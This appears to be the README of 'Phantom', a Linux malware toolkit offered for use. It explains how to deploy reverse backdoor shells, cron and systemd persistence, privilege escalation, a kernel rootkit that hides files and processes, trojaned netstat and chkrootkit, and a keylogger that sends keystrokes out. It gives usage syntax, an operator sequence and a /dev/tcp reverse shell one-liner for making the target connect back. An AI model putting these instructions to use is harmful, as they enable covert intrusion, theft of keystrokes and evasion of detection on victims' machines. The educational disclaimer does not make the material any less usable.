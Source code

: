 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat and chkrootkit.
If needed it attempts privilege escalation. Finally, it installs a keylogger. It only works on Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port (port1) and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every five minutes to the attacker's machine, but to a different port than the first one (port2). The reason for this is that this way you have more control of what to do with the backdoor shell, otherwise the same payload gets executed each time the target connects to your machine. It also creates a python3 server listening to a third port that is needed to transfer the files needed by the payload. If privilege escalation is attempted, it opens another ncat process. Lastly, it installs
a keylogger to the target's machine which sends keystrokes to a specified port (portk).

## Usage

```
phantom-init [ip=][port1=][port2=][portk=]
```

* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload
* portk: the port that listens for keystrokes

You have to somehow make the target connect to port1, i.e. bash -c 'bash &>/dev/tcp/ip/port1 <&1 &'
(ip and port1 are the ones specified above.)

## Files

* phantom-init: Creates the python3 server and an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
  * If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to port2 and then attempts privilege escalation. If it succeeds it moves to the next step.
  * If the user connecting is root and systemd is used, it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to the attacker's machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and systemd services (ps aux cannot find them this way). Finally, it creates a systemd service which executes, a script
  which send keystrokes to the attacker's machien (portk). If systemd is not used it does the same but with a crontab file and python shells. It then creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services/crontab use and the systemd services/crontab themselves. It is also persistent through reboots because the script which hides the pids inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip and chkrootkit, so it doesn't show that netstat is replaced and there is a LKM rootkit present in the system.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system. It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)
  3.  Create a ncat process listening at portk. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close the ncat listening processes so all the connections get closed.
2.  Close phantom-firewall.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@protonmail.com

